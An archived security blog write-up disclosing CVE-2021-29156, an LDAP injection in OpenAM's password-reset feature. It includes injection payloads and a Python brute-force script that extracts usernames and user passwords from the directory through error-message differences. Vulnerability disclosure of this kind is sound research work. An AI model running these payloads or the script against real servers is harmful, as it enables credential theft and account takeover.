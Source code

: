 Archive notes:
* Original URL: https://blog.cybercastle.io/ldap-injection-in-openam/
* Archive.org URL: https://web.archive.org/web/20210226031627/https://blog.cybercastle.io/ldap-injection-in-openam/
* CVE: [CVE-2021-29156](https://nvd.nist.gov/vuln/detail/CVE-2021-29156)

# LDAP INJECTION IN OPENAM

**TL;DR**

In this article we explain how we were able to identify and exploit an LDAP injection vulnerability within OpenAM access management  server platform.

**About OpenAM**

OpenAM is an open-source access management, entitlements and federation server platform. It was sponsored by ForgeRock until 2016. Now it is supported by Open Identity Platform Community. OpenAM originated as OpenSSO, an access management system created by Sun Microsystems and now owned by Oracle Corporation. Wikipedia

**LDAP Injection**

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it’s possible to modify LDAP statements through techniques similar to SQL Injection

**Vulnerability Details**

The vulnerability was found in the password reset feature that OpenAM provides. When a user tries to reset his password, he is asked to enter his username then the backend validates whether the user exists or not through an LDAP query before the password reset token is sent to the user’s email.  Setting the value of the username parameter PWResetUserValidation.tfUserAttr to * caused the server to respond with the following error Error: There is more than one user matching the specified value. Enter a different value, or contact your administrator for assistance. which indicates that it could be vulnerable to LDAP injection.

Setting the value of PWResetUserValidation.tfUserAttr parameter to **)|(objectclass=** returned the same error which means that the query returned more than a user. With that said, it’s possible to fetch any data from the directory service database using the following technique:

If the query returns more than one result => There error returned will be:  There is more than one user matching the specified value

If the query returns only one result => There are no questions configured for you or asks the user to answer questions

If the query doesn’t return anything => The password cannot be reset for this user

Thus, It’s possible to fetch the value of any property for the user object if we know the property name using **)|(propertyName=**a and if the server doesn’t return the errror: The password cannot be reset for this user then the value of the property has a character “a” and we can keep trying other characters until we get the full value.

Since the injection point is within the username property, we were able to extract usernames from the active directory service database using the following python script:

import requests

url = "https://[REDACTED]/amserver/ui/PWResetUserValidation"

charlist = "@_/:$%&^+,-=.1234567890abcdefghijklmnopqrstuvwxyza"

headers = {"Cookie":"[REDACTED]", User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0"

}

restart = True

res = ''

while restart:

restart = False

for char in charlist:

r = requests.post(url, headers=headers,data={"PWResetUserValidation.fldUserAttr":"uid",

"PWResetUserValidation.tfUserAttr":"%s%s*)(objectclass=*" % (res,char), "PWResetUserValidation.btnNext":"%C2%A0Next%C2%A0","jato.defaultCommand":"/btnNext","jato.pageSession":"1"}, verify = False)

print "%s%s %s" % (res,char, str(r.status_code))

# print r.content

if "cannot be reset for this user" not in r.content:

print "found %s%s" % (res,char)

res = "%s%s" % (res,char)

restart = True

break

And after running the script, it returned the username of the admin user: amadmin

After further testing, we decided to see if it would be possible to fetch passwords or password reset tokens.

First, we need to get the object class name, we were able to do this by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “**)(objectclass=**%s%s” % (char,res) which returned sunServiceComponent

![Untitled](images/forgerock_openam_ldapinj_0.png)

Now all we have to do is to look for the documentation of sunServiceComponent class at https://docs.oracle.com/cd/E19563-01/819-4437/6n6jckr11/index.html

One of the allowed attributes for this class is sunKeyValue which returns all attributes assigned to the user including the userPassword value.

Thus, we were able to fetch the user password by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “PWResetUserValidation.tfUserAttr”:”**)(sunKeyValue=**userPassword=%s%s*” % (res,char)

![Untitled](images/forgerock_openam_ldapinj_1.png)

That’s it for today, follow us and subscribe to our newsletter for more interesting writeups!

WRITTEN BY: MAHMOUD GAMAL
